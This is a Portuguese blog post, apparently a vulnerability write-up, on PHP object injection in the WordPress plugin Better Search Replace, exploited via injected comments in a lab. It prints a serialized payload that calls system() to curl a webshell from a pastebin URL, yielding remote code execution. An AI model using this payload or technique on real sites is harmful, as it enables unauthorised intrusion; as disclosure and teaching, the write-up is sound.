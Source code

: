 ```yaml
---
layout: post
title: PHP Object Injection no Better Search Replace
permalink: /web/php-object-injection-better-search-replace
---
```


**Atenção**: A técnica demonstrada neste artigo tem o propósito de ser um material educativo, a exploração foi feita em um ambiente controlado. Não realize esta exploração sem a autorização do dono do servidor, pois isto poderá resultar em um crime!

![](/imgs/php-object-injection-better-search-replace/plugin_info.png)

O Better Search Replace é um plugin que possui a função de fazer exatamente o que o nome dele sugere, ele busca uma string na sua base de dados do Wordpress e substitui por outra string que você forneceu.

Sinceramente não entendo porque é tão usado, segundo o Wordpress, existem **mais de 1 milhão de instalações ativas**.

![](/imgs/php-object-injection-better-search-replace/search.png)

![](/imgs/php-object-injection-better-search-replace/serialization.png)

Dentre suas funcionalidades, o plugin consegue realizar o processamento de objetos PHP serializados, então resolvi fazer Code Review deste plugin.

![](/imgs/php-object-injection-better-search-replace/func_unserialize.png)

Depois de algum tempo na análise estática, encontrei o trecho de código responsável por realizar a deserialização. Achei interessante, logo comecei a análise dinâmica.

Infelizmente não consegui iniciar uma POP Chain utilizando o próprio plugin (que por acaso tornaria a vulnerabilidade bem mais crítica) :disappointed:. Por sorte, o Wordpress permite que um plugin consiga acessar as classes ou funções que foram definidas em outros plugins, ou seja, não existe um "sandbox". Consequentemente, isto abre a possibilidade de criarmos payloads reutilizando o código-fonte de outro plugin para iniciar o POP chains.

Para facilitar a minha vida, criei o plugin ["WP Object Injection Proof of Concept"](https://github.com/growlnx/WP-Object-Injection-PoC), este plugin possibilita o ataque de **Reutilização de Código**, me poupando tempo com **POP Chains**.

![](/imgs/php-object-injection-better-search-replace/plugin_vuln.png)

Ele se resume a nessa pequena classe. Caso deseje reproduzir em um cenário mais aproximado da realidade, recomendo que veja o [PHPGGC](https://github.com/ambionics/phpggc), pode te ajudar.

Nesta PoC vou utilizar o seguinte payload:

{% highlight php %}
O:2:”OI”:2:{s:3:”cmd”;s:48:”curl -o ws.php https://pastebin.com/raw/E3cNN0Zy“;s:3:”fcn”;s:6:”system”;}
{% endhighlight %}

Agora só resta saber onde devemos realizar a injeção... que tal nos comentários?

![](/imgs/php-object-injection-better-search-replace/tabela.png)

O plugin permite que o usuário realize o processamento na tabela de comentários, isso é bem legal, pois podemos injetar o payload nos comentários e esperar a iteração do administrador no plugin **Better Search Replace** para disparar a substituição.

![](/imgs/php-object-injection-better-search-replace/comment_evil.png)

Como pode se observar na imagem acima, o administrador é notificado a respeito do comentário, logo, também será necessário contar a sorte.

![](/imgs/php-object-injection-better-search-replace/request_admin_search.png)

Se o payload for interpretado, o download de uma simples webshell será realizado no diretório "wp-admin".

![](/imgs/php-object-injection-better-search-replace/rce.png)

*Voilà*!, foi possível obter uma unauth RCE através de uma deserialização insegura.